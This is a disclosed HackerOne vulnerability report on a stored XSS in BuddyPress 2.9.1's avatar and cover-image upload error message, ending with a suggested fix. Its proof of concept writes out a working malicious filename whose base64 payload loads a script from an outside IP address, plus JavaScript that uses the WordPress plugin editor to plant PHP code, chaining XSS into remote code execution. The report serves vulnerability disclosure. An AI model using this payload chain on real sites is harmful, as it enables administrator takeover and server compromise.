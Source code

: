 # Buddypress 2.9.1 - Exceeding the maximum upload size  - XSS leading to potential RCE. 

## Report Details
- **Report ID**: 263109
- **URL**: https://hackerone.com/reports/263109
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-08-24T22:55:44.354Z
- **Disclosed**: 2017-11-02T17:04:35.375Z

## Reporter
- **Username**: skansing
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
# Description
This report is very similar to https://hackerone.com/bugs?subject=user&report_id=203515 so I will not go into too much details.

When uploading a avatar or profile background image thats larger than allowd, the error containing the filename will be output unsanitized leading to XSS. Making the victim upload a strangely named file for his profile requires some social engineering. Any user is vuln, but has to be admin to escalate to RCE.

The interfaces for upload that are vuln can be found at
domain.tld/members/USERNAME/profile/change-cover-image/
domain.tld/members/bbuser/profile/change-avatar/
domain.tld/wp-admin/users.php?page=bp-profile-edit
 
# POC
The POC explores a chain of XSS => XSSI => RCE via same origin scripting, the route via XSSI is mainly due to file and char length restrictions

- Login as admin
- Goto `/wp-admin/users.php?page=bp-profile-edit`
- Upload a file with the following name (mentioned below) as admin for.

Filename 
`POC<img src=x onerror='document.write(atob("UnVubmluZyBQT0M8c2NyaXB0IHR5cGU9InRleHQvamF2YXNjcmlwdCIgc3JjPSJodHRwOi8vMTU5LjIwMy4xOTAuMTIzL3c5cmZhczg5ZXVmczllOGZ1OThld3VmandlZmlvandlX3MxMDU4Zy0vd3AtcmNlLmpzIj48L3NjcmlwdD4="))'>`

The base64 data can be verified by
`btoa('Running POC<script type="text/javascript" src="http://159.203.190.123/w9rfas89eufs9e8fu98ewufjwefiojwe_s1058g-/wp-rce.js"></script>');` in the browser conole.

This scripts loads the RCE script that changes the hello.php with <?php phpinfo() and redirect to it.
```
var i = document.createElement("iframe");
i.src = "http://127.0.0.1:8090/wp-admin/plugin-editor.php?file=hello.php";
document.querySelector("body").appendChild(i);
setTimeout(function() {
  var p = "<?php phpinfo();"
  var d = document.querySelector("iframe").contentWindow.document;
  var c = d.querySelector("#newcontent")
  var s = d.querySelector("#submit")
  c.value = p
  s.click();
}, 2000);
setTimeout(function() {
  window.location.href = "http://127.0.0.1:8090/wp-content/plugins/hello.php"
}, 4000);
```

# Suggested fix
Sanitize the error. I suspect it needs a run through `.html()` as in #203515


## Attachments
No attachments

